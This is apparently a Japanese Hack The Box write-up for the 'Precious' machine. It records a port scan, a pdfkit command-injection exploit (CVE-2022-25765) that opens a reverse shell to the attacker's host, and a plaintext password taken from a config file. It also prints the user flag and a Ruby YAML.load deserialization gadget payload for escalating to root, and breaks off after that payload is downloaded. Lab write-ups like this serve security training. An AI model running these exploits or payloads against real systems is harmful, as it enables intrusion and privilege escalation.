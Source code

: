 ## STEP 1
```sh
└─$ rustscan -a 10.129.228.98 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.228.98:22
Open 10.129.228.98:80
10.129.228.98 -> [22,80]
```


## STEP 2
80番にアクセス、「precious.htb」にリダイレクトされたので名前解決できない  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_01.png" width="50%" height="50%">  
hostsを編集
```sh
└─$ echo '10.129.228.98 precious.htb' | sudo tee -a /etc/hosts
```
アクセスできた、urlを入力できるっぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_02.png" width="50%" height="50%">  
試しに「hxxp://127.0.0.1」を入力したらエラーが出た  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_03.png" width="50%" height="50%">  
今度はkaliでpythonでwebサーバをたてて確認させる
```sh
└─$ python3.13 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
pdfが自動でダウンロードされた、実際にkaliでたてたwebサーバのキャプチャになっている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_04.png" width="75%" height="75%">  
ダウンロードされたpdfの情報を確認すると、pdfkitで作成されているっぽい
```sh
└─$ exiftool Downloads/muzjrzs750ms8sopaxtjok1iojlb19li.pdf 
ExifTool Version Number         : 13.25
File Name                       : muzjrzs750ms8sopaxtjok1iojlb19li.pdf
Directory                       : Downloads
File Size                       : 38 kB
File Modification Date/Time     : 2025:07:02 08:40:05-04:00
File Access Date/Time           : 2025:07:02 08:40:05-04:00
File Inode Change Date/Time     : 2025:07:02 08:40:05-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v8.0.6 には、CVE-2022-25765のrceの脆弱性があるらしい  
[PoC](https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765)でエクスプロイト
```sh
└─$ wget https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
--2025-07-02 08:53:48--  https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1582 (1.5K) [text/plain]
Saving to: ‘CVE-2022-25765.py’

CVE-2022-25765.py                                          100%[========================================================================================================================================>]   1.54K  --.-KB/s    in 0s      

2025-07-02 08:53:49 (38.4 MB/s) - ‘CVE-2022-25765.py’ saved [1582/1582]


└─$ python3.13 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.4 -p 4444
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.16.4
[*] Input port is 4444
[!] Run the shell... Press Ctrl+C after successful connection
^CTraceback (most recent call last):
```
リバースシェル取得！がユーザフラグすら権限拒否
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.98] 44794
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)


ruby@precious:/var/www/pdfapp$ cat /home/henry/user.txt
cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```


## STEP 3
謎のconfigファイルにhenryのパスワードらしいものを発見  
henryにログイン成功！ユーザフラグゲット！
```sh
ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"


ruby@precious:/var/www/pdfapp$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH


id
uid=1000(henry) gid=1000(henry) groups=1000(henry)


SHELL=/bin/bash script -q /dev/null
henry@precious:/var/www/pdfapp$


henry@precious:/var/www/pdfapp$ cat /home/henry/user.txt
cat /home/henry/user.txt
e3948152e2e4cd28f2c967ffcc412a53
```


## STEP 4
パスワードなしでroot権限でrubyを実行できそう
```sh
henry@precious:/var/www/pdfapp$ sudo -l
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
「/opt/update_dependencies.rb」を確認  
dependencies.ymlの中身は
```yaml
rails: "6.1.4"
rake: "13.0.6"
```
のようなバージョンが書いてあると仮定し  
dependencies.yml内のバージョンと、実際にインストールされているバージョンを比較するスクリプトっぽい
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
が、`YAML.load()`でyamlを読み込むとクラスを生成してしまうのでそこからコマンド実行の脆弱性があるらしい  
またdependencies.ymlは絶対パスでないため、攻撃者のyaml経由でコマンド実行できる
[PoC](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)があるので、git_setでリバースシェルコマンドに編集
```sh
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
```sh
henry@precious:~$ cd /home/henry
cd /home/henry


henry@precious:~$ wget http://10.10.16.4/dependencies.yml
wget http://10.10.16.4/dependencies.yml
--2025-07-02 10:08:12--  http://10.10.16.4/dependencies.yml
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 667 [application/yaml]
Saving to: ‘dependencies.yml’

     0K                                                       100%  119M=0s

2025-07-02 10:08:14 (119 MB/s) - ‘dependencies.yml’ saved [667/667]
```
